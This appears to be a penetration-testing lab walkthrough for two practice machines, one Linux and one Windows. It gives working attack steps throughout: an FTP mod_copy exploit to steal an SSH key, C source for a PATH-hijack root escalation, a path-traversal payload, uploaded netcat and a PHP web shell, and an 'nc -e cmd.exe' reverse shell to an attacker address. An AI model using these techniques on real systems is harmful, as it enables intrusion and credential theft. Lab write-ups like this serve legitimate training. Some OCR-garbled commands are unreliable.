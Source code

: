 ```bash
Vulcan (.53)
```
Operating SystemLinux
Points20
Similar Machine (User)TryHackMe’s Kenobi
Similar Machine (Root)
Exploit in Getting User
1. Port 20048 (mountd) is open so run showmount -e 192.168.XX.53
2. Create a folder in your machine and run - mount -t nfs 192.168.XX.53:/ your_folder/ -no lock
3. cd _0_tyken
4. Read notes.txt and you’ll learn that the user tyken created an SSH key so you have to get it
5. FTP service is vulnerable to https://www.exploit-db.com/exploits/36803 (Unauth RCE)
6. nc 192.168.XX.53 21 then cpfr /home/tyken/.ssh/id_rsa then cpto /var/tmp/id_rsa
7. Connect to SSH - ssh -i id_rsa tyken@192.168.XX.53
8. User shell!
Privilege Escalation to Root
1. Target machine is running a keybase-redirector and is vulnerable to
https://www.exploit-db.com/exploits/46044
1. Create a fusermount.c
#include <stdio.h>
#include <stdlib.h>
#include <sys/types.h>
#include <unistd.h>
int main(int argc, char **argv)
{
setreuid(0,0);
system("/usr/bin/touch /w00t");
return(0);
}
1. Compile it - gcc -Wall fusermount.c -o fusermount and upload it to target machine
2. Prepend the PATH env variable with a dot and execute keybase-redirector which in turn will
execute the malicious fusermount binary as root. - env PATH=.:$PATH
/usr/bin/keybase-redirector /keybase
1. Enter the control-c sequence to kill the application and run the ./w00t binary.
2. Root shell!

```bash
Codiod (.55)
```
Operating SystemWindows
Points20
Similar Machine (User)
Similar Machine (Root)
Exploits in Getting User
1. Simple nmap will show /dashboard so directory brute force that
2. LFI in
compontents/filemanager/download.php?path=../../../../../../../../../../xampp/security/webda
v.htpasswd
1. Brute force the hash: john --wordlist=rockyou.txt hash.txt
2. Upload netcat: curl --user 'wampp:iamdifferent' -T nc.exe
http://192.168.XX.55/webdav/nc.exe
1. Upload the reverse shell using the same process above: <?php echo($_GET[‘cmd’]); ?>
2. Start a netcat listener
3. curl --user 'wampp:iamdifferent'
http://192.168.XX.55/webdav/cmd.php?cmd=nc+-e+cmd.exe+192.168.XX.XX+53
1. User Shell!
Privilege Escalation to Root
1. WebDAV Elevation of Privilege Vulnerability - CVE-2016-0051
2. Method 2 in https://hacknpentest.com/webdav-exploit-elevation-of-privilege/
3. Exploit: https://github.com/hexx0r/CVE-2016-0051
4. Root shell!
